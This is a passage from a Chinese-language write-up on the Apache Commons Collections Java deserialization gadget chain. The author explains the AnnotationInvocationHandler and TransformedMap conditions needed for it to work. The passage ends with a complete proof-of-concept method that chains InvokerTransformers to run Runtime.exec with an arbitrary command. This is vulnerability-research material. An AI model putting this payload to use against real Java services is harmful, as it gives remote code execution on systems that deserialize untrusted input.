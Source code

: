 	Map map = new HashMap();
	Map transformedmap = TransformedMap.decorate(map, null, transformerChain);
	InvocationHandler handler = (InvocationHandler) getFirstCtor("sun.reflect.annotation.AnnotationInvocationHandler").newInstance(Retention.class, transformedmap);
	Reflections.setFieldValue(transformerChain, "iTransformers", transformers);
	
到这里并没有成功弹出计算器，当执行到AnnotationInvocationHandler.readObject()时，下面这段代码不会执行。
	
	for (Map.Entry<String, Object> memberValue : memberValues.entrySet()) {
	String name = memberValue.getKey();
	Class<?> memberType = memberTypes.get(name);
	if (memberType != null) { // i.e. member still exists
	Object value = memberValue.getValue();
	if (!(memberType.isInstance(value) ||
	value instanceof ExceptionProxy)) {
	memberValue.setValue(
	new AnnotationTypeMismatchExceptionProxy(
	value.getClass() + "[" + value + "]").setMember(
	annotationType.members().get(name)));

要其执行要满足两个条件,memberValues不能为空，并且memberType不能为空
String name = memberValue.getKey();
Class<?> memberType = memberTypes.get(name);
memberTypes是Retention，查找下注释Retention中的成员，发现有一个value。
![](http://ohsqlm7gj.bkt.clouddn.com/18-2-1/3738114.jpg)
那么memberValues只需要put一个键值对，其键为value即可，memberValues.put('value', 'xxx'),完整poc如下:
	
	public InvocationHandler getObject(final String command) throws Exception {
	final String[] execArgs = new String[]{command};
	// inert chain for setup
	// real chain for after setup
	final Transformer[] transformers = new Transformer[]{
	new ConstantTransformer(Runtime.class),
	new InvokerTransformer("getMethod", new Class[]{
	String.class, Class[].class}, new Object[]{
	"getRuntime", new Class[0]}),
	new InvokerTransformer("invoke", new Class[]{
	Object.class, Object[].class}, new Object[]{
	null, new Object[0]}),
	new InvokerTransformer("exec",
	new Class[]{String.class}, execArgs),
	new ConstantTransformer(1)};
	final Transformer transformerChain = new ChainedTransformer(
	new Transformer[]{new ConstantTransformer(1)});
	//Transformer transformerChain = new ChainedTransformer(transformers);
	Map map = new HashMap();
	Map transformedmap = TransformedMap.decorate(map, null, transformerChain);
	transformedmap.put("value", "xx");
	Class cls = Class
	.forName("sun.reflect.annotation.AnnotationInvocationHandler");
	InvocationHandler handler = (InvocationHandler) getFirstCtor("sun.reflect.annotation.AnnotationInvocationHandler").newInstance(Retention.class, transformedmap);
	Reflections.setFieldValue(transformerChain, "iTransformers", transformers);
	return handler;
	}
	